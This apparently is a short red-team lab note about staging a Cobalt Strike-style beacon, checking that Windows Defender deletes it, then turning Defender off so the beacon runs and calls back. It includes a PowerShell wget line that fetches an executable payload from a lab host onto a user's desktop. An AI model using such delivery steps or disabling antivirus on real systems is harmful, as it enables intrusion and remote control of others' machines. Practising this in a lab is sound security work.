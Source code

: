 picking up from [[6. Resource Kit - arsenal_kit-NO-AV-BYPASS.cna]] and just dropping `beacon` to disc to make sure it is caught when `AV` is `On`


starting `host file` with these settings at `/artifact`
![[Pasted image 20250317161535.png]]
making sure defender is on
![[Pasted image 20250317161622.png]]
dropping on the desktop, should be eaten
`wget http://192.168.127.129:80/artifact -UseBasicP -OutFile "C:\Users\blaster\Desktop\artifacttest.exe"`
caught by defender
![[Pasted image 20250317161828.png]]and eaten - good
![[Pasted image 20250317161841.png]]
turning off `defender` and trying again to make sure the beacon works.
![[Pasted image 20250317161915.png]]
able to drop on `disc`
![[Pasted image 20250317161936.png]]
able to catch beacon
![[Pasted image 20250317161956.png]]